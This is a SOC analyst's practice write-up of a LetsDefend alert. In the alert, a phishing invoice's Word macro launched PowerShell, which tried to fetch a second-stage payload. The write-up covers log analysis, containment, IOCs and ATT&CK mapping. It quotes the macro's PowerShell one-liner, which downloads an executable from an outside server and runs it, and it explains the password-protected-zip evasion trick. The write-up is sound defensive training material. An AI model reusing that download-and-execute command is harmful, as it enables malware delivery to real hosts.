# SOC205 — Malicious Macro has been executed

| Field | Value |
| --- | --- |
| **Platform** | LetsDefend |
| **Alert ID** | EventID 231 |
| **Alert Time** | Feb 28, 2024 — 08:42 AM |
| **Category** | Malware / Execution |
| **Verdict** | True Positive — Host Compromised |
| **Status** | Closed |

---

## Executive Summary

An alert fired for the execution of a malicious macro on host `Jayne` (`172.16.17.198`). The initial vector was a spearphishing email disguised as a February membership fee invoice, carrying a password-protected `.zip` attachment to bypass email gateway scanning. Endpoint and SIEM analysis confirmed the user opened the document, which triggered `WINWORD.EXE` to spawn `powershell.exe`. The script attempted to download a secondary executable payload (`messbox.exe`) from an external C2 server, but proxy logs confirmed the download failed with an HTTP 404 error. The host was contained and the email was purged from the inbox.

---

## Kill Chain

### 1. Threat Intelligence & Hash Verification

The alert provided the SHA256 hash for the file `edit1-invoice.docm` (`1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0`).

| Source | Result |
| --- | --- |
| LetsDefend TI | No data returned. |
| VirusTotal | Flagged malicious by 29 security vendors. Tags confirmed a macro-enabled Word document (`.docm`) with auto-run behavior. Additional tags: `run-file`, `macro-run-file`, `auto-open`, `checks-disk-space`, `macros`. |

The VirusTotal result matched the file name and type. Verdict: Malicious.



---

### 2. Email Analysis

I queried Email Security for the user `jayne` on Feb 28, 2024 to find the delivery vector.

| Field | Value |
| --- | --- |
| Sender | `jake.admin@cybercommunity.info` |
| Recipient | `jayne@letsdefend.io` |
| Subject | February Membership Fee |
| Date | Feb 28, 2024, 08:12 AM |
| Action | Allowed |
| Attachment | `edit1-invoice.docm.zip` |
| Password | `infected` (included in the email body in plaintext) |

The attacker sent the `.docm` inside a password-protected zip and included the password in the email body. This is a standard evasion technique: email security gateways cannot scan the contents of an encrypted archive, so the malicious file passes through uninspected. The password in plaintext tells the recipient exactly how to open it.



---

### 3. Endpoint & SIEM Analysis

Querying the EDR Endpoint Security tab for host `172.16.17.198` returned an error: "Failed to retrieve logs, use log management." This could indicate agent failure or malware interference. Either way, I contained the host immediately and pivoted to SIEM Log Management, filtering by source address `172.16.17.198`.

The SIEM returned 17 events. The relevant logs reconstructed the full execution chain:







**File drop**

Sysmon EventID 11 (File Created) at 08:41 AM `Explorer.EXE` wrote `edit1-invoice.docm.zip` to `C:\Users\LetsDefend\Downloads\`.

**Document opened and macro triggered**

Sysmon EventID 1 (Process Create) `WINWORD.EXE` loaded the extracted `.docm` from the Downloads folder. Windows Security EventID 4688 (A New Process Has Been Created) captured the same event from a different source, confirming `WINWORD.EXE` as the parent process.



**Shell spawned**

A second Sysmon EventID 1 entry showed `WINWORD.EXE` spawning `powershell.exe` (PID 4545). The command line read:

```
C:\Program Files\Microsoft Office\Office14\WINWORD.EXE /n C:\Users\admin\AppData\Local\Temp\edit1-invoice.docm
```

Word spawning PowerShell is not normal behavior. This is the macro executing.



**PowerShell script block**

Windows Security EventID 4104 (Execute a Remote Command) and EventID 4688 both captured the exact script block run by the macro:

```
POWERSHELL (NEW-OBJECT SYSTEM.NET.WEBCLIENT).DOWNLOADFILE('HTTP://WWW.GREYHATHACKER.NET/TOOLS/MESSBOX.EXE','MESS.EXE'); START-PROCESS 'MESS.EXE'
```

The script attempts to download `messbox.exe` from the C2 server and execute it as `mess.exe`.





**DNS resolution**

Sysmon EventID 22 (DNS Query) at 08:42 AM confirmed `powershell.exe` queried `WWW.GREYHATHACKER.NET` and resolved it to `92.204.221.16`.



**Secondary payload failure**

A Proxy log entry at 08:42 AM shows an outbound `GET` request from `172.16.17.198` (source port 49212) to `92.204.221.16` on port 80, requesting `HTTP://WWW.GREYHATHACKER.NET/TOOLS/MESSBOX.EXE`. HTTP response code: **404**. Device action: Permitted.

The macro executed successfully and `powershell.exe` made the outbound request, but the payload was not present on the C2 server at the time of the attack. `messbox.exe` was not downloaded.



---

## Containment & Remediation

**Containment**

- Host `172.16.17.198` (Jayne) was isolated via the EDR platform. The secondary payload download failed, but the macro achieved code execution and spawned an unauthorized shell, containment was required regardless of the 404.
- The phishing email was permanently deleted from Jayne's inbox via the Email Security Gateway.

**Remediation**

- Escalate to Tier 2 / Incident Response for endpoint forensics and reimaging. Code execution occurred and the full scope of macro behavior beyond the PowerShell download attempt is unconfirmed without deeper analysis.
- Block `92.204.221.16` and sender domain `cybercommunity.info` at the perimeter firewall and email gateway.

---

## Playbook Notes

**EDR error and SIEM pivot:** The EDR terminal history tab returned "Failed to retrieve logs, use log management" for Jayne's host. I contained the host immediately on that result and moved to SIEM rather than treating it as a platform glitch and waiting. The SIEM provided the complete execution chain, so no data was lost, but the EDR failure is worth flagging in case it reflects active malware tampering with the agent.

---

## Indicators of Compromise (IOCs)

| Type | Value |
| --- | --- |
| Malicious Hash (SHA256) | `1a819d18c9a9de4f81829c4cd55a17f767443c22f9b30ca953866827e5d96fb0` |
| File Name | `edit1-invoice.docm` |
| Phishing Sender | `jake.admin@cybercommunity.info` |
| Phishing Domain | `cybercommunity.info` |
| C2 IP Address | `92.204.221.16` |
| Secondary Payload URL | `http://www.greyhathacker.net/tools/messbox.exe` |

---

## MITRE ATT&CK Mapping

| Tactic | Technique |
| --- | --- |
| Initial Access | T1566.001 — Phishing: Spearphishing Attachment |
| Execution | T1204.002 — User Execution: Malicious File |
| Execution | T1059.005 — Command and Scripting Interpreter: Visual Basic (macro trigger) |
| Execution | T1059.001 — Command and Scripting Interpreter: PowerShell |
| Defense Evasion | T1027.013 — Obfuscated Files or Information: Encrypted/Encoded File (password-protected zip) |

---



---

*Written by: Supawat H. (uriel0byte) | LetsDefend SOC Practice*
